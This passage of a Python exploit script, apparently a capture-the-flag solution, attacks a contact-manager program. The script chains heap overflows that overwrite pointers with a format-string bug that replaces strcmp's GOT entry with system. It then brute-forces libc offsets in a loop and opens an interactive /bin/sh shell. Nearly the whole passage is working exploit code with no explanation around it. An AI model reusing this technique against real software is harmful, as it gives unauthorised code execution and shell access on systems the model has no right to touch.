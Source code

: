 ```python
    print "[+] Second person's description @ ", hex(sec_person_desc)

    trd_person_desc = bin_sh + 0x58
    print "[+] Third person's description @ ", hex(trd_person_desc)

    # Create person 2
    create_contact(r, p2, "1234", format1)

    # Overflow person 1 name into person 2 phone pointer
    payload = "\x69" * (64 + 4 + 4) + p32(sec_person_desc) + p32(strcmp_got) + p2
    edit_contact(r, p1, 1, payload)

    # Create person 3
    create_contact(r, p3, "5678", format2)

    # Overflow person 2 name into person 3 desc pointer
    payload = "\x42" * (64 + 4 + 4) + p32(trd_person_desc) + p32(strcmp_got + 2)
    edit_contact(r, p2, 1, payload)

    # Display
    # Triggers format string vuln to overwrite strcmp with system (when printing person 2)
    # Calls system by having desc pointer overwritten in person 3's desc
    try:
        display_contacts(r)
    except:
        r.close()
        return

    r.sendline("3")
    print r.recv()
    r.sendline("/bin/sh")
    print r.recv()
    try:
        r.sendline("ls")
        print r.recv()
        r.interactive()
    except:
        r.close()
        return

libc_so_6_off = -0xd060
for i in range(0xfff):
    do_sploit(libc_so_6_off - i)
```
